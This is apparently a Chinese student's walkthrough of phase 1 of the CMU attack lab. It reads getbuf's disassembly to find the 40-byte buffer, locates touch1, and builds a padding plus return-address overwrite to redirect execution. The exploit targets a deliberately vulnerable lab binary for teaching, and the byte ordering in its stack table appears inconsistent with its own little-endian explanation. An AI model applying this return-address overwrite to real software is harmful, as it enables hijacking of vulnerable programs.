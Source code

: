 具体实现：

（1）阅读`asm1.s`，找到分配栈空间的大小

`ctarget`的正常流程是：

~~~c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", val);
}
~~~

发现只调用了`getbuf`函数，应该在其中分配了空间。

阅读函数对应的汇编代码

~~~assembly
0000000000001a9c <getbuf>:
    1a9c:	48 83 ec 28          	sub    $0x28,%rsp
    1aa0:	48 89 e7             	mov    %rsp,%rdi
    1aa3:	e8 94 02 00 00       	callq  1d3c <Gets>
    1aa8:	b8 01 00 00 00       	mov    $0x1,%eax
    1aad:	48 83 c4 28          	add    $0x28,%rsp
    1ab1:	c3                   	retq 
~~~

我们发现在`1a9c`行，通过`sub    $0x28,%rsp`操作，为栈分配了`0x28`，即40个字节的空间。

（2）阅读`asm1.s`，找到`touch1`的起始地址

![](/home/fang/Pictures/Screenshot from 2019-11-24 00-15-07.png)

这样我们发现`touch1`的起始地址为`0x555555555ab2`。

（3）填充栈空间

通过以上步骤，我们已经获得了所用需要的信息，接下来我们填充栈空间。实际上可以选用任意字符，我们不妨选用16进制的`0x00`填充，然后填充`touch1`地址，最后得到是如下结果：

![](/home/fang/Pictures/Screenshot from 2019-11-24 00-20-59.png)

我们需要注意的之字节顺序的问题，大部分PC是小段序，即低位在低地址，高位在高地址。所以填充后的栈空间

|                               							   |
| ------------------------------------------------------------------------------ |
| `00 00 55 55 55 55 5a b2`<——`0x5566fd90`  |
| `00 00 00 00 00 00 00 00`                 		    |
| `00 00 00 00 00 00 00 00`                 		    |
| `00 00 00 00 00 00 00 00`                 		    |
| `00 00 00 00 00 00 00 00`                 		    |
| `00 00 00 00 00 00 00 00`<—— `0x5566fd68` |
